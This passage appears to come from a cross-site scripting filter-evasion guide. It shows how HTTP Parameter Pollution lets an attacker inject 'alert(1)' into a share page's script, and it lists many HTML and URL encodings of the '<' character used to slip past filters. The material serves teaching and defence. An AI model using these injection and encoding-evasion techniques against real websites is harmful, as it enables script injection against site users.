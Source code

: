 ### Content Page Output

In this case if attacker set untrusted content title as “This is a regular title&content_type=1;alert(1)” the link in "Content" page would be this:

```html
<a
  href="/share?content_type=1&title=This is a regular title&amp;content_type=1;alert(1)"
  >Share</a
>
```

### Share Page Output

And in share page output could be this:

```html
<script>
  var contentType = 1; alert(1);
  var title = "This is a regular title";
  …
  //some user agreement and sending to server logic might be here
  …
</script>
```

As a result, in this example the main flaw is trusting the content_type in the "Share" page without proper encoding or validation. HTTP Parameter Pollution could increase impact of the XSS flaw by promoting it from a reflected XSS to a stored XSS.

## Character Escape Sequences

All the possible combinations of the character "\<" in HTML and JavaScript. Most of these won't render out of the box, but many of them can get rendered in certain circumstances as seen above.

- `<`
- `%3C`
- `&lt`
- `&lt;`
- `&LT`
- `&LT;`
- `&#60`
- `&#060`
- `&#0060`
- `&#00060`
- `&#000060`
- `&#0000060`
- `&#60;`
- `&#060;`
- `&#0060;`
- `&#00060;`
- `&#000060;`
- `&#0000060;`
- `&#x3c`
- `&#x03c`
- `&#x003c`
- `&#x0003c`
- `&#x00003c`
- `&#x000003c`
- `&#x3c;`
- `&#x03c;`
- `&#x003c;`
- `&#x0003c;`
- `&#x00003c;`
- `&#x000003c;`
- `&#X3c`